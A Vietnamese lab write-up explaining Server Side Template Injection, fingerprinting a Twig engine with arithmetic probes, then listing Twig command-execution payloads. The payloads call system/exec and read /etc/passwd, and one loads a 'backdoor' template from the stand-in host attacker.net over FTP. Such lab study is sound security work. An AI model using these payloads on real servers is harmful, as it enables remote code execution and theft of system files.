




Người thực hiện: Lê Trần Văn Chương.

Ngày: 16/05/2022.

Mục lục:
- [Server Side Template Injection (SSTI)](#server-side-template-injection-ssti)
  - [Plaintext context:](#plaintext-context)
  - [Code context](#code-context)
- [Lab](#lab)


## Server Side Template Injection (SSTI)
- SSTI là lỗ hổng cho phép hacker tiêm vào các ký tự đặc biệt dùng để đánh dấu một biến và điều khiển đầu ra theo ý muốn của mình.
- Khi một lỗ hổng SSTI bị phát hiện, hacker có thể thông qua lỗ hổng này để đọc được các biến môi trường quan trọng hoặc nâng lỗ hổng lên thành các lỗ hổng khác như XSS hay RCE.
- Ký tự mà hacker dùng để tiêm vào input sẽ tùy thuộc vào template cũng như ngôn ngữ backend mà web server đang sử dụng. Các ứng dụng web thường sử dụng các hệ thống mẫu như Twig và FreeMarker để nhúng nội dung động vào các trang web và email.
- Lỗ hổng bảo mật này có thể xuất hiện trong hai ngữ cảnh riêng biệt, mỗi ngữ cảnh yêu cầu phương pháp phát hiện riêng:
### Plaintext context:
- Hầu hết các ngôn ngữ mẫu hỗ trợ ngữ cảnh 'text' dạng tự do nơi bạn có thể nhập trực tiếp HTML. Nó thường sẽ xuất hiện theo một trong những cách sau:
```HTML
smarty=Hello {user.name}
Hello user1 
```

```HTML
freemarker=Hello ${username}
Hello newuser  
```

```HTML
any=<b>Hello</b>
<b>Hello<b> 
```

- Đều này dẫn đến tấn công `XSS`.
    
### Code context
- Đầu vào của người dùng cũng có thể được đặt trong một đoạn code mẫu, thường là một tên biến:
```php
personal_greeting=username
Hello user01 
```

- Biến thể này thậm chí còn dễ bị bỏ sót hơn trong quá trình đánh giá, vì nó không dẫn đến `XSS` rõ ràng và hầu như không thể phân biệt được bằng cách tra cứu bản đồ băm đơn giản. Thay đổi giá trị `username` thường sẽ dẫn đến kết quả trống hoặc ứng dụng bị lỗi.

## Lab
- Sau khi phát hiện tiêm mẫu, bước tiếp theo là xác định template engine đang được sử dụng. Bước này đôi khi cũng đơn giản như việc gửi cú pháp không hợp lệ, vì các công cụ mẫu có thể tự nhận dạng trong các thông báo lỗi kết quả. Tôi sẽ làm theo sơ đồ ở dưới.


- Mũi tên màu xanh lá cây và màu đỏ lần lượt thể hiện các câu trả lời "thành công" và "thất bại". Trong một số trường hợp, một trọng tải duy nhất có thể có nhiều phản hồi thành công khác nhau - ví dụ: thăm dò `{{7 * '7'}}` sẽ cho kết quả là 49 ở Twig, `'7777777'` ở Jinja2 và cũng không nếu không có ngôn ngữ mẫu nào được sử dụng.


- Có thể thấy hình trên thì trường hợp `{{7*7}}` kết quả vẫn là `Hello 49` thì ta có thể suy ra có 2 template engine có thể đc sử dụng trong này là `Jinja2` của Python và `Twig` của PHP. Theo sơ đồ thì nó sẽ đi theo nhánh phía dưới. Tiếp tục thử `{{7*'7'}}`, nếu kết quả là `Hello 49` thì là template engine `Twig`, còn `Hello '7777777'` thì là `Jinja2`.


- Có thể thấy kết quả ở trên thì ta sử dụng template engine là `Twig`.
- Tôi lên trang `Hacktricks` để có thể tìm các exec code để có thể test. Phía dưới là các exec code để test:
```php
#Exec code
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("whoami")}}
{{['id']|filter('system')}}
{{['cat\x20/etc/passwd']|filter('system')}}
{{['cat$IFS/etc/passwd']|filter('system')}}
```

- Tôi sử dụng đoạn `{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}` để xem thử id của user nhưng không thành công. Nhưng nếu tôi đổi `id` thành `whoami` thì có kết quả.
- Tôi tiếp tục sử dụng đoạn `{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("whoami")}}` để test và kết quả ở phía dưới.



